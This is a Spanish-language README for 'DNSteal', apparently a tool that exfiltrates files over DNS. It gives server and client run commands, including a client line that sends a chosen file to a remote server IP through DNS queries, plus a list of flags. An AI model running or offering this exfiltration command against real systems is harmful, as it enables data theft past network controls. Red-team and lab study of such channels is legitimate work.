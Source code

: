 # DNSteal

## Uso

#### 💻 Ejecutar el programa:

* **Server**

```bash
python3 server.py
```

<img src="/media/Client.png" width="300" title="use example">

* **Client**

```bash
python3 client.py -s Server_IP -f File
```

<img src="./media/Server.png" width="300" title="use example">

### 🚩 Flags del Programa

* **Server**

```bash
-s / --server: [Opcional] IP que quieras para el servidor. Predet = 0.0.0.0
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
-i / --ip: [Opcional] IP de respuesta falsa. Predet = 127.0.0.1
-p / --port: [Opcional] Puerto que desea utilizar. Predet = 53
```
* **Client**

```bash
-s / --server: [Requerido] IP a la que desea conectarse
-f / --file: [Requerido] Archivo que contiene el mensaje
-t / --time: [Opcional] Tiempo que las solicitudes esperan una respuesta del servidor. Predet = 5
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
```

### :movie_camera: Demostración de Uso

<video width="320" height="240" controls>
  <source src="./media/Video.mp4" type="video/mp4">
</video>
